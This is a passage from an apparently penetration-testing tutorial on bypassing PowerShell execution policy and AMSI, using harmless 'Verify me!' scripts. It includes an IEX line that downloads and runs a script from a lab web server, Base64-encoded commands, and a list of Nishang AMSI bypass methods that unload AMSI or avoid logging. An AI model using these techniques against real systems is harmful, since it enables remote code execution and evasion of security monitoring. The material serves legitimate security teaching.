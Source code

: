 Various ways of bypassing this are:

1. Paste the contents into an interactive PowerShell console
2. Echo the script and pipe to a PowerShell standard in:

```bash
PS C:\Users\rin\book> echo 'Write-Host "Verify me!"' | powershell -noprofile -
Verify me!
```

Read the contents of the file and pipe to PowerShell standard in

```bash
PS C:\Users\oztechmuse\book> Get-Content .\runme.ps1 | PowerShell.exe -noprofile -
Verify me!
```

Download the script from a web server and execute using Invoke Expression

```bash
PS C:\Users\rin\book> IEX(New-Object Net.WebClient).downloadString("http://192.168.114.2:8001/runme.ps1");
Verify me!
```

Encode the command as Base64 and pass it to PowerShell using the -EncodedCommand flag

```bash
PS C:\Users\rin\book> $command = "Write-Host 'Verify me!'"
PS C:\Users\rin\book> $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
PS C:\Users\rin\book> $encodedCommand = [Convert]::ToBase64String($bytes)
PS C:\Users\rin\book> $encodedCommand
VwByAGkAdABlAC0ASABvAHMAdAAgACcATQB5ACAAdgBvAGkAYwBlACAAaQBzACAAbQB5ACAAcABhAHMAcwBwAG8AcgB0ACwAIAB2AGUAcgBpAGYAeQAgAG0AZQAuACcA
PS C:\Users\rin\book> powershell -Enc $encodedCommand
My voice is my passport, verify me.
```

Use the -ExecutionPolicy Bypass flag

Incidentally, if you want to encode a PowerShell command on Linux, you need to use the UTF little endian encoding \(--to-code UTF\_16LE\) first:

```bash
echo "Write-Host 'Verify me!'" | iconv --to-code UTF-16LE | base64 -w 0
```

The -w 0 flag makes sure the output is all on one line.

## Bypassing AMSI

Nishang includes a PowerShell script Invoke-AmsiBypass.ps1 that will use a variety of methods to bypass AMSI. According to the script, these methods are:

1. "unload": Unloading AMSI from current PowerShell session using a technique developed by Matt Graeber.
2. "unload2": Another technique of unloading AMSI from current PowerShell session developed by Matt Graeber
3. "unloadsilent": Third technique of unloading AMSI that avoids Windows Management Framework \(WMF5\) logging \(author Matt Graeber\).
4. "unloadobfuscated": Unload method in 1 but obfuscated using Invoke-Obfuscation \(Daniel Bohannon\) to try and avoid WMF5 logging.
5. "dllhijack": A method to hijack the ams.dll \(Cornelis de Plaa https://github.com/Cn33liz/p0wnedShell\)
6. "psv2": If PowerShell version 2 is available, it will downgrade to that since it doesn't support AMSI.
